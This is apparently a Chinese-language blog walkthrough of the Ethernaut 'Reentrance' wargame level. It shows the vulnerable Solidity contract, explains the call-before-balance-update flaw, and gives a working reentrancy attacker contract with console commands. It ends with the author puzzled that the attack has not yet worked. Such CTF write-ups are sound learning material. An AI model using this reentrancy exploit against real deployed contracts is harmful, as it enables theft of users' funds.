


终于到了合约中最牛逼的一个漏洞！！！

> The goal of this level is for you to steal all the funds from the contract.
>
>  Things that might help:
>
> - Untrusted contracts can execute code where you least expect it.
> - Fallback methods
> - Throw/revert bubbling
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```


问题就在于 是先call发完钱后，再更新的balance。而call会调用目标合约的fallback！ 可以一直递归调用！

由于用的call，所以gas limit是要大于transfer的2300的，所以可以递归调用很多次！


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrancy {
    function withdraw(uint256 _amount) external ;  
} 
contract reEntrance{
    address payable levelInstance;
    constructor(address payable _levelInstance) {
        levelInstance = _levelInstance;
    }
    
    function attack(uint256 _amount) payable public {
        IReentrancy(levelInstance).withdraw(_amount);
    }

    receive() external payable {
        IReentrancy(levelInstance).withdraw(msg.value);
    } 
}
```

部署完后，console调用 donate，向攻击合约的地址转点钱：

```
await contract.donate("0x86FFC485b32d121e8525f67860F093400EF69879",{value:toWei("0.005")})
```


然后 attack。

填 `5000000000000000 ` (0.005 eth)




嘶，取了一大笔啊，为什么还是不成功呢？




是要多取几次么？

可以用 await getBalance(contract.address) 看合约的余额。

emmm。。。